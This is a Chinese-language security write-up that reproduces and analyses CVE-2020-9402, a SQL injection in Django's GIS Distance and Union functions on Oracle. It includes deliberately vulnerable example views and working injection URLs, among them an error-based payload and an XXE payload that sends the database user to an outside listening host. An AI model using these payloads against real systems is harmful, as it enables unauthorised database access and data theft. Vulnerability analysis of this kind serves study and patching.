 （CVE-2020-9402）Django Geo sql注入
===================================

一、漏洞简介
------------

Django
1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞。攻击者可借助特制的SQL语句利用该漏洞查看、添加、修改或删除数据库中的信息。

二、漏洞影响
------------

Django
1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞

三、复现过程
------------

根据官网的修复https://github.com/django/django/commit/6695d29b1c1ce979725816295a26ecc64ae0e927\#diff-229e38ececbfc591f7a5e595bf5707c4，可以看到问题出在GIS的查询上面

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId24.png)

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId25.png)

官方只修复了这两个位置，可以发现基本上是对于`tolerance`参数进行判断是否为数字。那首先来了解一下GIS查询。

GIS查询API是一个地理位置的查询API，提供用户存储精确GPS的位置的数据模块，属于一个空间数据库，我们可以通过如下的经纬度信息

    pnt = GEOSGeometry('POINT(-96.876369 29.905320)', srid=4326)

    >>>SRID=4326;POINT (-96.876369 29.90532)

来获得一个具体的定位信息,通过如下的模块来构建一个基本的地理信息存储

    from django.contrib.gis.db import models
    class Names(models.Model):
        name = models.CharField(max_length=128)

        def __str__(self):
            return self.name

    class Interstate(Names):
        path = models.LineStringField()

后台存储的时候发出path的信息为json数据，例如

    {"type":"LineString","coordinates":[[-8167.236601807093,-3286.248045708844],[-7896.285624495958,-3324.9553281818644],[1083.8039092445451,-654.1528375435246]]}

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId26.png)

我们就获得了一个基本的地理位置数据,同理，通过构造一个聚合的查询方法

    def vuln(request):
        q = request.GET.get('q')
        qs=Interstate.objects.annotate(
                d=Distance(
                    Point(-0.0733675346842369, -0.0295208671625432, srid=4326),
                    Point(0.009735976166628611, -0.00587635491086091, srid=4326),
                    tolerance = q, # default 0.05
                ),
            ).filter(d=D(m=1)).values('name')

因为官网文档找不到如何构造Point查询，因此为了省事，直接写死了Point数值。。srid为空间参考的投影设置，默认值为4326。其中`tolerance`是对于oracle特殊存在的一个键值，其作用是基本你的容错率，详细的信息可以参考[oracle官方文档](https://docs.oracle.com/en/database/oracle/oracle-database/18/spatl/spatial-concepts.html#GUID-CE10AB14-D5EA-43BA-A647-DAC9EEF41EE6)。对应的查询语句为

    SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) =  1.0 FETCH FIRST 21 ROWS ONLY;

**0x02代码分析**首先从传入一个url

    http://127.0.0.1:8000/vuln/?q=20) = 1 OR 1=1 OR (1%2B1

从`annotate`聚合函数开始跟进，同普通的model函数查询一样，gis查询虽然拥有着单独的model模块，但依旧还是依靠着普通model中进行过滤和查询。从gis的model文件夹中的`__init__.py`文件中看

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId28.png)

主要的查询依然调用的是django最基本的db方法，而其中单独定义了`function`方法等一些对地理位置插叙独特的方法。程序运行到`/django/db/models/manager.py`文件中的`_get_queryset_methods`后，获取到tolerant参数之后便直接进入到gis模块中进行查询

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId29.png)

继而进入到`django/contrib/gis/measure.py`文件中的`MeasureBase`类中进行方法调用，那么后面的方法分析可以跳过，因此直接来到漏洞代码段。先来看gis
API中的functions函数，在as\_oracle方法这一段

    def as_oracle(self, compiler, connection, **extra_context):
        tol = self.extra.get('tolerance', self.tolerance)
        return self.as_sql(
            compiler, connection,
            template="%%(function)s(%%(expressions)s, %s)" % tol,
            **extra_context
        )

`tolerance`
从self.extra.get导入，该方法会搜索全局变量的值，如果该值不存在，则直接设置为0.05，并且将其直接传入到新的变量中。之后则不对tol进行任何处理直接拼接到template字符串中并且传入`as_sql`方法。那么官方对于as\_sql的文档是，此方法需要一个SQLCompiler对象，位于`django/db/models/sql/compiler.py`文件中。而我们只需要知道在该对象中有一个`compile()`方法，该方法可以返回一个包含SQL字符串的元祖，而SQLComiler对象中的query变量则是存储直接进行SQL查询语句的SQL命令。从而两个Point分别进入`compile`方法中进行拼接

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId30.png)

不知道为什么，用pycharm在as\_oracle下断点的时候，第一次到达SQLCompiler的时候，pycharm不会在as\_oracle函数中停下来，而是在第二次查询的时候才会停，但是经过测试确实是在进入SQLCompiler之前调用过as\_orcle函数，可能是pycharm没有正确识别重载函数吧。之后template构造模版也因此进入到`expression.py`中的as\_sql函数中进行字符串构造

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId31.png)

因此最后进入oracle的命令语句是

    SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) = 1 OR 1=1  OR (1+1) = 1.0 FETCH FIRST 21 ROWS ONLY;

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId32.png)

带入数据库中查询

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId33.png)

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId34.png)

官方修复的方法就是加入Value函数，判断传入的值是否为数字，否的话直接报错推出。那么第二个注入点就是`Union`了，建立Model

    class City(Names):
        point = models.PointField()  # 点模块

编辑传入的参数为

    {"type":"Point","coordinates":[13250.226757682816,68815.69380603009]}

view中设置查询

    from django.contrib.gis.db.models import Union
    def vuln2(request):
        q = request.GET.get('q')
        res = City.objects.aggregate(
                Union('point', tolerance=q),
        )
        return HttpResponse(res)

输入url

    http://127.0.0.1:8000/vuln2?q=0.05)))%2C%20(((1

首先看结果，得到的SQL查询语句为

    SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT",0.05))), (((1))) AS "POINT__UNION" FROM "APP_CITY";

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId35.png)

该aggregate查询方法是GIS查询特定的一种查询方法，为的是与地理查询的语句做适配,用法跟原模块的方法类似。因此跟进GIS模块中的聚合查询方法，位于`django/contrib/gis/db/models/aggregates.py`文件内的as\_oracle方法。

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId36.png)

同样tolerance没有做任何检查直接传入了template模版语句中，原理与上面annotate查询过程一致。利用有大致两个方法报错注入

    http://localhost:8000/test/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v%24instance)) from dual) is null%20 OR (1%2B1

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId37.png)

CVE-2014-6577因为Django自2.0以后支持的oracle版本为12以上，因此可以尝试oracle
XXE来进行SQL的注入。同时因为在SQL处理的过程中有三次利用%的模版跳转，因此需要在XMLpayload中的%替换为%%%%，payload为

    http://localhost:8000/test/?q=20) = 1 OR (select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%25%25%25%20remote%20SYSTEM%20%22http%3A%2F%2Fdocker.for.mac.host.internal%3A9000%2F'%7C%7C(SELECT%20user%20from%20dual)%7C%7C'%22%3E%20%25%25%25%25remote%3B%5D%3E')%2C'%2Fl')%20from%20dual)%20is%20not%20null OR (1%2B1

![](resource/(CVE-2020-9402)DjangoGeosql注入/media/rId38.png)

命令执的话因为是docker起的oracle所以没有设置JAVA的环境，暂时也不能判定有没有，以后再研究看看。

参考链接
--------

> https://xz.aliyun.com/t/7403
